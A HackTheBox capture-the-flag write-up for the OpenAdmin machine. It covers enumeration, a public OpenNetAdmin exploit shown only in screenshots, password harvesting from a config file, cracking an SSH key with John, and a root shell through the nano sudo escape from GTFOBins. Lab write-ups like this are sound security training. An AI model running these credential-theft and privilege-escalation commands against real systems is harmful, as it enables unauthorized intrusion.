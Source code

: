 ```yaml
---
layout: post
title: "HTB - Openadmin"
date: 2021-11-17  
categories: [Hackthebox, HTBLinux]
tags: [opennetadmin, gtfobins, ssh2john, id_rsa]
image: ../../assets/img/posts/Openadmin/openadmin.jpg
---
```


## Summary -

**OpenAdmin** from HackTheBox is an easy-rated machine which involves an exploit for OpenNetAdmin to get a foothold on the machine. There are 2 users on the box Jimmy and Joanna . We get the password for Jimmy via database config file & then ssh as Jimmy, then on enumerating we find an internal application running.Doing a simple curl command reveals id_rsa key of Joanna. We then crack the password of the id_rsa file and ssh into the machine as Joanna. For root, we find that we have sudo privileges over nano . We refer sudo entry for nano on  [gtfobins](https://gtfobins.github.io/gtfobins/nano/)  & we easily escalate our privileges as root!


| **Name  -** | Openadmin |
|:---:|---|
| **OS   -**    | Linux |
| **Difficulty -** | Easy |
| **Room Link   -** | https://www.hackthebox.eu/home/machines/profile/222 |
| **Creator   -** | [del_KZx497Ju](https://www.hackthebox.eu/home/users/profile/82600) 
 |


## Enumeration -

**Nmap**


```zsh
# Nmap 7.91 scan initiated Tue Jul  6 14:02:13 2021 as: nmap -sC -sV -p 22,80 -v -oN openadmin.nmap 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.46s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 14:02:42 2021 -- 1 IP address (1 host up) scanned in 28.86 seconds

``` 
As you can see there are 2 ports open :

**Port 22** - `SSH`   -  `OpenSSH 7.6p1 Ubuntu 4ubuntu0.3`

**Port 80** - `HTTP`  -  `Apache httpd 2.4.29`


**Web Enumeration**

At port 80 we find default page of apache 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730338625/uCtP0pGDm.png)
Lets do some directory bruteforcing. Dirsearch reveals the following directories 

```
/music
/artwork
/sierra
``` 
On visiting the ***/music*** directory It gives us this page
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730702532/MBOEMMzap.png)
 This login button takes us to `http://openadmin.htb/ona` .On visiting,we get a page like this 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730557375/VnYYMhh6F.png)

From the above , we could identify that the software is `OpenNetAdmin` and the version is `v18.1.1`
## Foothold  -

We use `searchsploit` to find any publicly available exploits for `OpenNetAdmin - v18.1.1` ,& we find this

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625829682381/9bCc51NNt.png)

Lets mirror it to our current directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625829835307/xekdj_qUR.png)

Lets run the exploit 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830040051/GFqNaKtRd.png)
And we are `www-data `  user

There are 2 users on the machine `Jimmy` and `Joanna`

```bash
 cat /etc/passwd | grep -i "bash"
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830263020/lMQid09DX.png)

## Shell as Jimmy -
On enumerating the current directory we find a `database config file` which contains a password !


```bash
cat local/config/database_settings.inc.php | grep -i "pass"
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830572487/QNWheVAMf.png)
We are not sure which user's password is this , so first we try to ssh into the machine as Jimmy & we're logged in !

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830737331/wKrurZtl2.png)

Running `id`  command we see that we are part of `internal` group .Lets keep that in mind and move ahead & enumerate further ..
We run a find command to check for files which jimmy owns 


```bash
 find / -user jimmy 2>/dev/null
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831118840/e9JJqmT43.png)
HMM..INTERESTING ! Lets check that  `/var/www/internal/` directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831234552/MBVd6-DoMg.png)
Seems like there is an internal website running here 🧐 .We can verify it by running 
 
```bash
netstat -tulpn
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831363346/jweAQt1FR2.png)

## Shell as Joanna -

Lets check that internal website running at `port 52486` by using `curl` command


```bash
 curl localhost:52846/main.php
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832226010/qxh-pQYio.png)
Voila we get an **encrypted id_rsa key** !! Lets crack it and ssh in as *Joanna *!

Run `ssh2john` against `id_rsa` file to obtain a hash and crack it using John -


```bash
 /usr/share/john/ssh2john.py --wordlist=/usr/share/wordlists/rockyou.txt id_rsa >> hash

 john --wordlists=/usr/share/wordlists/rockyou.txt hash
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831758138/VX9FLY6z2.png)
We get Joanna's password !Lets try ssh into the box as Joanna 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831939144/xnOPraY0g3.png)
 Grab the  `user.txt`🚩
  
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832725095/-oQxN0eMe.png)

## Shell as Root -
Running `sudo -l` we find we could run nano on `/opt/priv` directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832068247/PFgUlh4Mw.png)
So we check  [GTFOBINS](https://gtfobins.github.io/gtfobins/nano/)  for any **sudo entry for nano**

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832344408/Ds0lpTgVL.png)

```
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

Run the above commands to get a root shell 
Grab the `root.txt ` 🚩  😎

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625834602463/OH8oNETD7.png)






